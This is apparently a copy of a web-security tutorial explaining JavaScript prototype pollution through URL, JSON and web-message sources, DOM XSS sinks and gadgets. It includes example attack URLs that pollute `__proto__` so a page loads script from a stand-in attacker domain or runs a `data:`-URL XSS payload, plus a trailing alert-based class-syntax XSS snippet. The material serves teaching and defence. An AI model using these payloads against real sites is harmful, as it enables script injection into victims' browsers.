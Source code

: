 Prototype pollution is a JavaScript vulnerability that enables an attacker to add arbitrary properties to global object prototypes, which may then be inherited by user-defined objects.

Although prototype pollution is often unexploitable as a standalone vulnerability, it lets an attacker control properties of objects that would otherwise be inaccessible. If the application subsequently handles an attacker-controlled property in an unsafe way, this can potentially be chained with other vulnerabilities, most commonly [[DOM Based XSS]].

## How do prototype pollution vulnerabilities arise?

Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys. This can allow an attacker to inject a property with a key like `__proto__`, along with arbitrary nested properties.

Due to the special meaning of `__proto__` in a JavaScript context, the merge operation may assign the nested properties to the object's prototype instead of the target object itself. 
As a result, the attacker can pollute the prototype with properties containing harmful values, which may subsequently be used by the application in a dangerous way.

It's possible to pollute any prototype object, but this most commonly occurs with the built-in global `Object.prototype`.

Successful exploitation of prototype pollution requires the following key components:

-   A [prototype pollution source](https://portswigger.net/web-security/prototype-pollution/what-is-prototype-pollution#prototype-pollution-sources) - This is any input that enables you to poison global prototypes with arbitrary properties.
-   A DOM [XSS](https://portswigger.net/web-security/cross-site-scripting) [sink](https://portswigger.net/web-security/prototype-pollution/what-is-prototype-pollution#prototype-pollution-sinks) - In other words, a JavaScript function or DOM element that enables arbitrary code execution.
-   An [exploitable gadget](https://portswigger.net/web-security/prototype-pollution/what-is-prototype-pollution#prototype-pollution-gadgets) - This is any property that is passed into a sink without proper filtering or sanitization.

## Prototype pollution sources

A prototype pollution source is any user-controllable input that enables you to add arbitrary properties to global prototypes. The most common sources are as follows:

-   The [URL](https://portswigger.net/web-security/prototype-pollution/what-is-prototype-pollution#prototype-pollution-via-the-url) via either the query or fragment string (hash)
-   [JSON-based input](https://portswigger.net/web-security/prototype-pollution/what-is-prototype-pollution#prototype-pollution-via-json-input)
-   Web messages

### Prototype pollution via the URL

Consider the following URL, which contains an attacker-constructed query string:
`https://vulnerable-website.com/?__proto__[evilProperty]=payload`

When breaking the query string down into `key:value` pairs, a URL parser may interpret `__proto__` as an arbitrary string. 
But let's look at what happens if these keys and values are subsequently merged into an existing object as properties.

You might think that the `__proto__` property, along with its nested `evilProperty`, will just be added to the target object as follows:

`{ existingProperty1: 'foo', existingProperty2: 'bar', __proto__: { evilProperty: 'payload' } }`

However, this isn't the case. At some point, the recursive merge operation may assign the value of `evilProperty` using a statement equivalent to the following:

`targetObject.__proto__.evilProperty = 'payload';`

During this assignment, the JavaScript engine treats `__proto__` as a getter for the prototype. 
As a result, `evilProperty` is assigned to the returned prototype object rather than the target object itself. 
Assuming that the target object uses the default `Object.prototype`, all objects in the JavaScript runtime will now inherit `evilProperty`, unless they already have a property of their own with a matching key.

In practice, injecting a property called `evilProperty` is unlikely to have any effect. However, an attacker can use the same technique to pollute the prototype with properties that are used by the application, or any imported libraries.

### Prototype pollution via JSON input

User-controllable objects are often derived from a JSON string using the `JSON.parse()` method. Interestingly, `JSON.parse()` also treats any key in the JSON object as an arbitrary string, including things like `__proto__`. This provides another potential vector for prototype pollution.

Let's say an attacker injects the following malicious JSON, for example, via a web message:

`{ "__proto__": { "evilProperty": "payload" } }`

If this is converted into a JavaScript object via the `JSON.parse()` method, the resulting object will in fact have a property with the key `__proto__`:

`const objectLiteral = {__proto__: {evilProperty: 'payload'}}; const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}'); objectLiteral.hasOwnProperty('__proto__'); // false objectFromJson.hasOwnProperty('__proto__'); // true`

If the object created via `JSON.parse()` is subsequently merged with an existing object without proper key sanitization, this will also lead to prototype pollution during the assignment, as we saw in the [URL-based example](https://portswigger.net/web-security/prototype-pollution/what-is-prototype-pollution#prototype-pollution-via-the-url) above.

## Prototype pollution sinks

A prototype pollution sink is essentially just a normal DOM XSS sink that you're able to access via prototype pollution. A DOM XSS sink is any JavaScript function or DOM object that can be used for arbitrary JavaScript execution. We've covered this extensively in our topic on [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based).

As prototype pollution lets you control properties that would otherwise be inaccessible, this potentially enables you to reach a number of additional sinks within the target application. Developers who are unfamiliar with prototype pollution may wrongly assume that these properties are not user controllable, which means there may only be minimal filtering or sanitization in place.

## Prototype pollution gadgets

A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:

-   Used by the application in an unsafe way, such as passing it to a DOM XSS sink without proper filtering or sanitization.
    
-   Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.
    

A property cannot be a gadget if it is defined directly on the object itself. In this case, the object's own version of the property takes precedence over any malicious version you're able to add to the prototype. [Robust websites](https://portswigger.net/web-security/prototype-pollution/preventing#prevent-an-object-from-inheriting-properties) may also explicitly set the prototype of the object to `null`, which ensures that it doesn't inherit any properties at all.

### Example of a prototype pollution gadget

Many JavaScript libraries accept an object that developers can use to set different configuration options. The library code checks whether the developer has explicitly added certain properties to this object and, if so, adjusts the configuration accordingly. If a property that represents a particular option is not present, a predefined default option is often used instead. A simplified example may look something like this:

`let transport_url = config.transport_url || defaults.transport_url;`

Now imagine the library code uses this `transport_url` to add a script reference to the page:

``let script = document.createElement('script'); script.src = `${transport_url}/example.js`; document.body.appendChild(script);``

If the website's developers haven't set a `transport_url` property on their `config` object, this is a potential gadget. In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by the `config` object and, therefore, set as the `src` for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:

`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`

By providing a `data:` URL as the `transport_url`, an attacker could also directly embed an XSS payload within the query string as follows:

`https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//`

Note that the trailing `//` in this example is simply to comment out the hardcoded `/example.js` suffix.


## Extends
```js
class x extends `${class x extends `${alert`1337`}`{}}`{}
```
